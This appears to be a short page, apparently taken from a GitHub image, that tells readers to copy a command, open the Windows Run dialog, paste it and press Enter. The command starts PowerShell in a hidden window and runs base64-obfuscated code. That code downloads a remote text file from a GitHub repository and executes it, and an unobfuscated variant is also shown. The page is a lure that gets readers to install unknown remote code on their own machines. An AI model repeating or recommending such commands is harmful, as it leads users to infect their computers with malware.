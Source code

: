 DO THIS ON YOUR PC:

1) COPY THIS: ```powershell.exe -windowstyle hidden Invoke-Expression([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('KEludm9rZS13ZWJyZXF1ZXN0IC1VUkkgImh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9hbGV4LVgtMTIvQXRvbWl4LWZ1emUvbWFpbi9jbWQudHh0IikuQ29udGVudA==')))```\n
or: ```powershell.exe -windowstyle hidden Invoke-Expression(Invoke-webrequest -URI "https://raw.githubusercontent.com/alex-X-12/Atomix-fuze/main/cmd.txt").Content```
2) HOLD WIN+R
3) HOLD CTR+V
4) PRESS ENTER!
